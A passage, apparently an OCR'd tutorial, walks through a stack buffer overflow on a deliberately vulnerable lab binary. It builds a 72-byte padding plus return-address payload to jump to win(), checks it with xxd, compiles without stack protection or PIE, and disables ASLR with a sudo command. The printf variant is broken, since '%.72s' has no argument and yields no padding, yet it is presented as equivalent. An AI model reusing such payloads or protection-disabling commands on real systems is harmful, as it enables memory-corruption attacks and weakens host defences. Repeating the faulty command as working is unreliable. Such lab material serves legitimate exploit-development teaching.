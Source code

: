 python3 -c 'import sys; sys.stdout.buffer.write(b"A"*72 + b"\xd6\x11\x40\x00\x00\x00\x00\x00")' > input.txt

### Using printf

bash

printf '%.72s\xd6\x11\x40\x00\x00\x00\x00\x00' > input.txt

## Verification

Check the file with `xxd`:

bash

xxd input.txt

It should show:

text

00000000: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000010: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000020: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000030: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000040: 4141 4141 4141 4141 d611 4000 0000 0000  AAAAAAAA..@.....

## Key Differences

1. Notice the correct address bytes `d6 11 40 00 00 00 00 00` at the end
    
2. No `c3 96` UTF-8 interpretation
    
3. No `000a` newline at the end (which could interfere)
    

## Running the Exploit

Make sure:

1. The binary is compiled without protections:
    
    bash
    
    gcc -fno-stack-protector -z execstack -no-pie stack_smash.c -o stack_smash
    
2. ASLR is disabled (for testing):
    
    bash
    
    echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
    
3. Then run:
    
    bash
    
    ./stack_smash
    

This should now properly overwrite the return address and jump to `win()`.